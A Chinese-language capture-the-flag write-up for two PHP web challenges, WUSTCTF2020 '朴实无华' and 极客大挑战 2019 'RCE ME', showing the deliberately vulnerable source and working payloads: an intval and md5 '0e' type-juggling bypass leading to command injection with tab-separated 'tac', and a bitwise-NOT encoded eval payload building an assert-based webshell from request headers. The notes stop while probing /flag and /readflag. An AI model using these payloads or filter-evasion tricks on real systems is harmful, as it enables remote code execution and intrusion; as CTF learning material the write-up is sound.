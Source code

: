 ## [WUSTCTF2020]朴实无华

```php
<?php
header('Content-type:text/html;charset=utf-8');
error_reporting(0);
highlight_file(__file__);


//level 1
if (isset($_GET['num'])){
    $num = $_GET['num'];
    if(intval($num) < 2020 && intval($num + 1) > 2021){
        echo "我不经意间看了看我的劳力士, 不是想看时间, 只是想不经意间, 让你知道我过得比你好.</br>";
    }else{
        die("金钱解决不了穷人的本质问题");
    }
}else{
    die("去非洲吧");
}
//level 2
if (isset($_GET['md5'])){
   $md5=$_GET['md5'];
   if ($md5==md5($md5))
       echo "想到这个CTFer拿到flag后, 感激涕零, 跑去东澜岸, 找一家餐厅, 把厨师轰出去, 自己炒两个拿手小菜, 倒一杯散装白酒, 致富有道, 别学小暴.</br>";
   else
       die("我赶紧喊来我的酒肉朋友, 他打了个电话, 把他一家安排到了非洲");
}else{
    die("去非洲吧");
}

//get flag
if (isset($_GET['get_flag'])){
    $get_flag = $_GET['get_flag'];
    if(!strstr($get_flag," ")){
        $get_flag = str_ireplace("cat", "wctf2020", $get_flag);
        echo "想到这里, 我充实而欣慰, 有钱人的快乐往往就是这么的朴实无华, 且枯燥.</br>";
        system($get_flag);
    }else{
        die("快到非洲了");
    }
}else{
    die("去非洲吧");
}
?> 
```

1. `intval`处理不当

传入`1e10`,`intval($num)`截断处理成`1<2020`,而`intval($num+1)`处理成`1e10+1>2021`

2. `0e`,`md5(0e215962017)=0e291242476940776845150308577824`
3. 不能用`cat`那就用`tac`或者`strings`或者`ca\t`,注意参数中不能出现空格,因此用`\t`代替即`0x09`

payload`fl4g.php?num=1e10&md5=0e215962017&get_flag=tac%09fllllllllllllllllllllllllllllllllllllllllaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaag`





## [极客大挑战 2019]RCE ME

> 类似于无参数RCE

```php
<?php
error_reporting(0);
if(isset($_GET['code'])){
    $code=$_GET['code'];
    if(strlen($code)>40){
        die("This is too Long.");
    }
    if(preg_match("/[A-Za-z0-9]+/",$code)){
        die("NO.");
    }
    @eval($code);
}
else{
    highlight_file(__FILE__);
}
?>
```

`[~%8F%97%8F%96%91%99%90][!%FF]();`执行`phpinfo();`

读出disable_functions

```
pcntl_alarm,pcntl_fork,pcntl_waitpid,pcntl_wait,pcntl_wifexited,pcntl_wifstopped,pcntl_wifsignaled,pcntl_wifcontinued,pcntl_wexitstatus,pcntl_wtermsig,pcntl_wstopsig,pcntl_signal,pcntl_signal_get_handler,pcntl_signal_dispatch,pcntl_get_last_error,pcntl_strerror,pcntl_sigprocmask,pcntl_sigwaitinfo,pcntl_sigtimedwait,pcntl_exec,pcntl_getpriority,pcntl_setpriority,pcntl_async_signals,system,exec,shell_exec,popen,proc_open,passthru,symlink,link,syslog,imap_open,ld,dl
```

`assert`并没有被过滤,因此可以利用`assert`来构造webshell

```php
#assert(end(getallheaders()));
var_dump(urlencode(~"assert"));
var_dump(urlencode(~"end"));
var_dump(urlencode(~"getallheaders"));
#string(18) "%9E%8C%8C%9A%8D%8B"
#string(9) "%9A%91%9B"
#string(39) "%98%9A%8B%9E%93%93%97%9A%9E%9B%9A%8D%8C"
```

payload`?code=(~%9E%8C%8C%9A%8D%8B)((~%9A%91%9B)((~%98%9A%8B%9E%93%93%97%9A%9E%9B%9A%8D%8C)()));`

扫描当前目录

![image-20210425151423415](image-20210425151423415.png)

扫描根目录

![image-20210425151522718](image-20210425151522718.png)

有`/flag`也有`/readflag`大概率是运行readflag来读,而flag无法直接读取

`readfile("/flag");`无回显

`readfile("/readflag");`有回显

说明`/flag`无法直接读取